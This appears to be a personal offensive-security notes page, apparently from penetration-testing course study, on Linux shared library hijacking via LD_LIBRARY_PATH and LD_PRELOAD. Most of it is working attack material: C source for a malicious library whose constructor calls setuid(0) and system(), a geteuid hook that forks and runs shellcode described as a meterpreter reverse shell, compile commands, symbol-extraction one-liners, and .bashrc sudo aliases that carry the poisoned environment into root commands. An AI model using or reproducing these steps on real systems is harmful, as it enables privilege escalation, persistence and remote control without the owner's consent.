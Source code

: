 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Ansible
---
```


<span style="font-size: 35px; color:red"><b>Shared Libraries - LD_LIBRARY_PATH</b></span>
&nbsp;

Like DLLs on windows, but on linux.
This shared libs are in the following folders (ordered by importance):
- RPATH
- LD_LIBRARY_PATH
- RUNPATH
- /etc/ld.so.conf
- /lib, /lib64, /usr/lib, /usr/lib64, /usr/local/lib, /usr/local/lib64, and potentially others.

&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>LD_LIBRARY_PATH</b></span>

Code to insert in .bashrc or .bash_profile to define the LD_LIBRARY_PATH

I.E. the target system is running <span style="color:red">top</span> each 3 minutes. <span style="color:red">top</span> uses shared libraries. We can trick the system into loading a fake shared library containing an exploit developed by us.

0) <span style="color:red">On most modern systems, user environment variables are not passed on when using sudo. This setting is configured in the /etc/sudoers file by using the _env_reset_ keyword as a default. Some systems are configured to allow a user's environment to be passed on to sudo. These will have _env_keep_ set instead.</span> To solve this, set an alias in .bashrc  alias sudo="sudo LD_LIBRARY_PATH=/home/offsec/ldlib" and remember to use source. Also try alias sudo = 'sudo -E' if not working.

1) Exploit to build to create shared library with payload:
```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

static void runmahpayload() __attribute__((constructor));

int gpgrt_onclose;
int _gpgrt_putc_overflow; //change these lines with the ones found in point 5
int gpgrt_feof_unlocked;

void runmahpayload() {
	setuid(0);
	setgid(0);
    printf("DLL HIJACKING IN PROGRESS \n");     //actual exploit
    system("touch /tmp/haxso.txt");
}
```

2) To compile:
```shell
gcc -Wall -fPIC -c -o hax.o hax.c
gcc -shared -o libhax.so hax.o
```
This will produce <span style="color:red">libhax.so</span>

4) To check the libraries loaded by <span style="color:red">top</span>:
```shell
ldd /usr/bin/top
```
Check what libraries you see and chose one that might not prevent normal use of the application.

6) Set the environment variable and set the name of the exploit library to the one we want to hijack:
```shell
export LD_LIBRARY_PATH=/home/offsec/ldlib/
cp libhax.so libgpg-error.so.0 (in folder specified above!)
```

8) Find missing symbols (replace <span style="color:red">libgpg-error.so.0</span> with the library you are replacing):
```shell
readelf -s --wide /lib/x86_64-linux-gnu/libgpg-error.so.0 | grep FUNC | grep GPG_ERROR | awk '{print "int",$8}' | sed 's/@@GPG_ERROR_1.0/;/g'
```
and copy output to the exploit shown in point 1.

10) It might be that we still miss some symbols (based on the output error from running <span style="color:red">top</spen>), you can find them like so:
```shell
readelf -s --wide /lib/x86_64-linux-gnu/libgpg-error.so.0 | grep FUNC | grep GPG_ERROR | awk '{print $8}' | sed 's/@@GPG_ERROR_1.0/;/g'
```
You can wrap the symbols into a symbol map file (<span style="color:red">gpg.map</span>) like this:
```
GPG_ERROR_1.0 {
gpgrt_onclose;
_gpgrt_putc_overflow;
...
gpgrt_fflush;
gpgrt_poll;
			//remember to add white line here
};
```

And compile everything again like so:
```shell
gcc -Wall -fPIC -c -o hax.o hax.c
gcc -shared -Wl,--version-script gpg.map -o libgpg-error.so.0 hax.o
```

7) If not specifying the new Library path on the .bashrc/.bash_profile files, remember to export the library path: <span style="color:red">export LD_LIBRARY_PATH=/home/offsec/ldlib/</span> and run the command. To run it with <span style="color:red">sudo</span>, check point 0.

&nbsp;

---
&nbsp;

<span style="font-size: 25px; color:white"><b>Shared Libraries - LD_PRELOAD</b></span>

I.E Let's attack <span style="color:red">cp</span>.

1) <span style="color:red">ltrace cp</span> to see the various functions used by cp and find one that is used only once and possibly without input parameters. We'll redefine that function.
2) If the function that we found is - for instance - <span style="color:red">geteuid()</span>, the .c exploit is the following:
```c
#define _GNU_SOURCE
#include <sys/mman.h> // for mprotect
#include <stdlib.h>
#include <stdio.h>
#include <dlfcn.h>
#include <unistd.h>

char buf[] = "\x48\x31\xff\x6...  //c meterpreter revshell

uid_t geteuid(void)
{
	typeof(geteuid) *old_geteuid;
	old_geteuid = dlsym(RTLD_NEXT, "geteuid");
	if (fork() == 0)
	        {
	                intptr_t pagesize = sysconf(_SC_PAGESIZE);
	                if (mprotect((void *)(((intptr_t)buf) & ~(pagesize - 1)),
	                 pagesize, PROT_READ|PROT_EXEC)) {
	                        perror("mprotect");
	                        return -1;
	                }
	                int (*ret)() = (int(*)())buf;
	                ret();
	        }
	        else
	        {
	                printf("HACK: returning from function...\n");
	                return (*old_geteuid)();
	        }
	        printf("HACK: Returning from main...\n");
	        return -2;
}
```

3) Compile it like:
```shell
gcc -Wall -fPIC -z execstack -c -o evil_geteuid.o evileuid.c
gcc -shared -o evil_geteuid.so evil_geteuid.o -ldl
```

4) After opening a meterpreter shell, test the executable like so (before and after loading library, as shown below):
```shell
cp /etc/passwd /tmp/testpasswd
export LD_PRELOAD=/home/offsec/evil_geteuid.so
cp /etc/passwd /tmp/testpasswd
```

4) To run as root:
```shell
unset LD_PRELOAD
```
Also add to .bashrc:
```shell
alias sudo="sudo LD_PRELOAD=/home/offsec/evil_geteuid.so"
```
and run the command with sudo.
